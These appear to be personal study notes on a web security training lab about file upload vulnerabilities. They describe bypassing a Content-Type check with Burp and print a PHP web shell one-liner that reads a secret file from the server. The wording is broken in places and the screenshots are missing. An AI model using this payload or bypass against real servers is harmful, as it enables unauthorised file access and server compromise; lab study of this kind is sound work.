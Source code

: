 
File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size



### Flawed file type validation
When submitting HTML forms, the browser typically sends the provided data in a `POST` request with the content type `application/x-www-form-url-encoded`. This is fine for sending simple text like your name, address, and so on, but is not suitable for sending large amounts of binary data, such as an entire image file or a PDF document. In this case, the content type `multipart/form-data` is the preferred approach.

## Web shell upload via Content-Type restriction bypass


in this lab we capture the request by burp and change the Content-Disposition and change the file name and  in the content type we change the photo and upload the shell link

~~~
<?php echo file_get_contents('/home/carlos/secret'); ?>
~~~


![[Screenshot (70).png]]

in this get  request after the upload the payload and change the file name we the in the post request 

![[Screenshot (71).png]]



